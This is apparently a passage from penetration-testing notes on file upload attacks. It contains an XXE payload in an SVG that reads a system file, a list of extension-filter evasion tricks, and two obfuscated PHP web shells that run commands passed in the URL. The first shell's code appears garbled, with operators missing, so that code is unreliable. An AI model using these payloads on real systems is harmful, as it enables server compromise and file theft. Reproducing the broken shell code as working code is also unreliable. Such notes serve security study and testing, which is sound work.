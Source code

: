 >[!bug]- [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
>```xml
>><?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
>```


## Obfuscating file extensions and evading restrictions

- [Evading Restrictions](Evading%20Restrictions.md)
- [Evading path, file and shell restrictions](Evading%20Restrictions.md#Evading%20path,%20file%20and%20shell%20restrictions)
- Provide multiple extensions (`exploit.php.jpg`, `exploit.jpg.php`)
- Add trailing characters : some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- Url-encoding and double url-encoding
- Add semicolons or URL-encoded null byte characters before the file extension: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- Inception of vulnerable extensions: `exploit.p.phphp` becomes `exploit.php` if the server do not remove extensions recursively

*obfuscated_shell1.php*
```php
<?
// shell.php?0=system&1=ls
@$_[]=@! _; $__=@${_}>>$_;$_[]=$__;$_[]=@_;$_[((  $__) ($__   ))].=$_;
$_[]=  $__; $_[]=$_[--$__][$__>>$__];$_[$__].=(($__ $__)  $_[$__-$__]).($__ $__ $__) $_[$__-$__];
$_[$__ $__] =($_[$__][$__>>$__]).($_[$__][$__]^$_[$__][($__<<$__)-$__] );
$_[$__ $__] .=($_[$__][($__<<$__)-($__/$__)])^($_[$__][$__] );
$_[$__ $__] .=($_[$__][$__ $__])^$_[$__][($__<<$__)-$__ ];
$_=$ 
$_[$__  $__] ;$_[@-_]($_[@! _] );
?>
```

*obfuscated_shell2.php*
```php
<?php
// shell.php?_=system&__=ls
$_="{"; 
$_=($_^"<").($_^">;").($_^"/");
?>
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```


## Tools

- ExifTool
- [Weevely](https://github.com/epinna/weevely3)
- `/usr/share/webshells`

## Further references

- [File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [File Upload (Web Security Academy)](https://portswigger.net/web-security/file-upload)

[^__init__]: [Slippy](../../Play%20ground/CTFs/Slippy.md)
[^flask_session]: [Acnologia Portal](../../Play%20ground/CTFs/Acnologia%20Portal.md)
[^openrefine-zip-slip]: [Stefan Schiller - Unzipping Dangers OpenRefine Zip Slip Vulnerability](../../Readwise/Articles/Stefan%20Schiller%20-%20Unzipping%20Dangers%20OpenRefine%20Zip%20Slip%20Vulnerability.md)